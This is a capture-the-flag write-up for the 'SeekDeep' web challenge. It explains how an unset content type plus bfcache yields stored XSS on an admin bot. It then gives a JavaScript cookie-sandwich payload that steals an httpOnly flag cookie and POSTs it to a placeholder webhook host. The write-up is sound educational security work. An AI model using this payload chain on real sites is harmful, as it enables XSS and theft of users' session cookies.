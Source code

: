 # SeekDeep Writeup

This web application requires you to chain two code mistakes to retrieve from the admin bot.

The first mistake that we can take advantage is the fact that responses are HTML in the api endpoints.

```python
@app.route('/api/following')
@login_required
def get_following():
    username = session.get("username")
    if request.headers.get("X-Requested-With") != "XMLHttpRequest":
        return json.dumps({"error": "Invalid request"}), 400
    user = User.query.filter_by(username=username).first()
    if not user:
        return json.dumps({"error": "User not found"})
    followers_list = [{"username": u.username} for u in user.followers.all()]
    following_list = [{"username": u.username} for u in user.following.all()]
    return json.dumps({
        "followers": followers_list,
        "following": following_list
    })
```

This api endpoint returns a JSON response but the content type is not set to `application/json`, so the browser will interpret it as HTML.
However, in the application, it doesn't access /api/following directly but rather makes a fetch request with the `X-Requested-With` header set to `XMLHttpRequest`.
In order to trigger HTML in the browser using this endpoint, we need to take advantage of the [bfcache](https://web.dev/articles/bfcache).
To do this, we can open the /api/following endpoint in a tab, get the admin's browser to cache it as 400 invalid request, then let browser make the valid request to the /api/following endpoint. using /social endpoint.
After that, we can use the `history.back()` method to go back to the cached page, which will now contain the HTML response.
Now that we have the HTML response, we can inject a script by letting the admin follow an account with script tag in the username and that will give us XSS on the admin's browser. Now how do we get the httpOnly flag cookie?

Throughout the site we have lots of endpoints that mess with the cookies and we have an endpoint that returns the cookies in the response body.

```python
@app.route('/api/prophecies')
def get_prophecies():
    keys = ["ascend", "lucky", "spirit", "colors", "riddle"]
    prophecies = {key: request.cookies.get(key) for key in keys}
    return json.dumps(prophecies)
```

This gives us a possible way to retrieve the flag using the [cookie sandwich technique](https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique).
Ordering the cookies in the right way, we can retrieve the flag cookie from the admin's browser and post it to our webhook.

```javascript
document.cookie="ascend=;path=/";
document.cookie="colors=;path=/";
document.cookie="lucky=;path=/";
document.cookie="riddle=;path=/";
document.cookie="spirit=;path=/";
document.cookie='ascend=";path=/api/prophecies';
document.cookie='spirit=";path=/';
setTimeout(()=>fetch("http://seekdeep:3000/api/prophecies",{credentials:"include"})
    .then(response => response.text())
    .then(data => fetch("WEBHOOK_SITE", {method: "POST", body: data, mode:'no-cors'})), 500);
```

Flag: `cube{Th1nk1ng_ReAL1Y_d3eEEe3333p}